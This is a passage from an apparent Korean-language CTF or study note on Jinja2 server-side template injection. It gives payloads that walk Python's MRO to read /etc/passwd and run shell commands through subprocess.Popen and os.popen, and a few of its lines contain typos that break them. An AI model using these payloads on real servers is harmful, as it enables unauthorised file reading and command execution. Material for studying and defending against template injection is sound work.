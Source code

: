 - 출력된 결과에서 n번째 클래스를 선택하면 파일 클래스를 찾을 수 있습니다.

```python
{{''.__class__.__mro__[2].__subclass__()[n]}} # => <type 'file'>
```

- sub class의 file class를 찾았다면은 `open('/etc/passwd/').read()` 호출하여 파일을 읽을 수 있습니다.

```python
{{''.__class__.__mro__[2].__subclass__()[n].open('/etc/passwd/').read()}}
```

**SSTI MRO File Read/Exec**

- `subprocess.Popen` 객체를 활용하여 서버내 파일을 읽어와 출력하는 형태로 진행할 수 있습니다.
- subprocess 모듈을 사용하여 하부 프로세스 생성과 관리를 하는 `popen` 클래스를 사용합니다.
- 새로운 프로세스에서 자식 프로그램을 실행하고 POSIX에서 클래스는 자식 프로그램을 실행하는데 `os.execvp()` 와 동일하게 동작하며 `Shell=True` 셸의 기본 값이 /bin/sh로 지정되어 명령을 수행할 수 있습니다.
- timeout시 프로세스가 종료되지 않도록 하기 위해 `communicate` 메서드를 활용합시다.

```python
{{''.__class__.__mro__[2].__subclasses__()[n]('cat flag', shell=True, stdout=-1).communicate()}}

{{config.__class__.__init__.__globals__['os'].popen('flag').read()}}

{{''.__class__.__mro__[2].__subclasses__()[n]('flag', shell=True, stdout=-1).communicate()}}
```

```toc
```